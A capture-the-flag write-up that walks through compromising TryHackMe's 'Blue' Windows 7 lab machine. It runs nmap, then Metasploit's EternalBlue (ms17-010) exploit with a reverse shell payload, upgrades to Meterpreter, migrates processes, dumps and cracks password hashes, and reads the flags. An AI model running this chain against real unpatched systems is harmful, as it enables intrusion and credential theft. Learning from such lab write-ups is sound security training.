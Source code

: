 # Máquina Blue
[![English](https://img.shields.io/badge/English-blue.svg)](README.md) [![Español](https://img.shields.io/badge/Español-green.svg)](README.es.md)

## Difficulty: Easy

![Logo](img/blue.webp)

I start with a ping. We habe connection and because the ttl is 128, we know it's a Windows machine.

```bash
ping -c 1 10.10.12.50
```

![Ping](img/ping.webp)

To enumeration, I used nmap. With -sC To use the default recognition scripts, -sV to detect the version of the serivces, -sS to stealth mode, and -p- to scan all ports.

```bash
nmap -p- -sV -sC -sS 10.10.12.50
```

![nmap](img/nmap.webp)

About the open ports, the ones that most catch my attention are **445**, which is the SMB port, a critical port where there may be vulnerabilities, and **3389**, which is the RDP port, another one that could be used. The Windows version: **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**, the Host name: **JON-PC**, from which we deduce that there is a user called Jon on the machine. We see that both **SMBv1** (smb-security-mode) and **SMBv2** (smb2-security-mode) are active.

Now we need to find some vulnerability to exploit.

I think to Google the version of Windows that the machine use to see if it has any vulnerabilities. Searching Google for this OS version, I found this:

![EternalBLue](img/eternalblue.webp)

So EternalBlue is an exploit that affects SMBv1 and, among others, this machine's version of Windows. This exploit allows remote code execution on the target machine. While it has already been patched, we don't know if the machine we attacked has been patched. We can test it.

I opened metasploit with the command:

```shell
msfconsole
```
Search  the exploit with:

```shell
search ms17-010
```

![Exploit](img/exploit.webp)

Select the exploit with:

```shell
use 0
```

The default payload is enought and will give us access to the machine with a Meterpreter reverse shell, but Tryhackme, to practice switching from a normal Windows shell to a Meterpreter shell, suggests using the following payload instead to get a normal Windows reverse shell:

```shell
set payload windows/x64/shell/reverse_tcp
```

![Payload](img/payload.webp)

Need to set the remote host address.

```shell
set RHOSTS 10.10.12.50
```

And local host. We can see our IP Address with this command:

```shell
ip a
```

And set the local host:

```shell
set LHOST 10.10.162.56
```
Then, run the exploit with:

```shell
run
```
Yes. The machine is vulnerable to EternalBlue. If we did it well, we should see some like this:

![Run](img/run.webp)

We now have the Windows reverse shell. Now we'll leave the session in the background with **ctrl + z** and use the **post/multi/manage/shell_to_meterpreter** module to escalate privileges to the meterpreter shell.

Now we need to specify the session in which we got the reverse shell. We can verify this with this command:

```shell
sessions -l
```

If you just did it, it's 1.

Now we use **run** to execute the exploit. This step may cause problems on this machine. It failed for me the first time and I had to reboot, that's why it has a different IP address now. If it worked, we'll see something similar to this:

![Meterpreter](img/meterpreter.webp)

Now we have a session with the meterpreter reverse shell, which is session 2. We activate it with this command:

```shell
sessions -i 2
```

We have it now, we can use **whoami** to check that we have nt authority\system privileges:

![whoami](img/whoami.webp)

We have administrator privileges, but our process may not. So, let's migrate to a process that does. We use **ps** to list the processes:

![pid](img/pid.webp)

In my case, I'm migrating to conhost.exe. I previously tried migrating to svchost.exe, but it denied me access. To do this, we use the **migrate** command, specifying the process's PID:

```shell
migrate 352
```

![migrate](img/migrate.webp)

Now we're asked for user Jon's password. I used **hashdump** to get the hash:

![hashdump](img/hashdump.webp)

Now there are several ways to crack the hash. We could use John the Ripper and try to extract it using word lists; I've used Crackstation's website because it's faster.

![CrackStation](img/crackstation.webp)

Now, for the first flag, we're told it's in the root of the system. Usually it's C:

```shell
cd C:\\
ls
cat flag.txt
```
![flag1](img/flag1.webp)

TryHackMe tell us that the second flag is where Windows passwords are stored. So in **C:\Windows\System32\config**

```shell
cd C:\\Windows\\System32\\config
ls
cat flag2.txt
```

![flag2](img/flag2.webp)

Flag 3 TryHackMe tell us it's where administrators usually save important things. So I go to C:\Users and the only user is Jon. Within Jon, I look for Desktop, Downloads, and finally Documents, where the last flag is located.

![flag3](img/flag3.webp)

By the way, when you realize that they're going to be called flag1.txt, flag2.txt, etc., Meterpreter has the **search -f** command, when you pass the file name to, and it shows you the path to it. For example with flag3.txt:

```shell
search -f flag3.txt
```

![search](img/altenativa.webp)

Machine solved.

![fin](img/fin.webp)